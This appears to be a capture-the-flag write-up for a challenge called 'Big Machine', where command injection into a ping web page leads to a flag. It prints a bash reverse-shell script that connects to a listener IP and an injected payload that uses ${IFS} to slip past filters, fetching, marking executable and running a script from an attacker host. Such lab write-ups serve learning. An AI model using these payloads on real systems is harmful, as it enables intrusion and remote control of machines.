


### Big Machine
* Author: Aakansh Gupta (Unknown)

Check the website on the given url



It shows the pin result for given IPs.
Try and get a reverse shell on it.
Since most common commands are blocked, we try and send a script from attacked to the machine like: 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.130/4444 0>&1

```
We craft a special request to send this: ` 8.8.8.8;curl${IFS}-o${IFS}/tmp/x${IFS}YOUR_ATTACKER_IP:8000/s;chmod${IFS}+x${IFS}/tmp/x;/tmp/x `
We can use python http.server to send the file. At the same time keep the netcat listener open to accept the reverse shell.

After getting a reverse shell, try snoop around to find the flag. If you check the enviornment variables using `env` , you get the flag




### The flag found is:
## CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
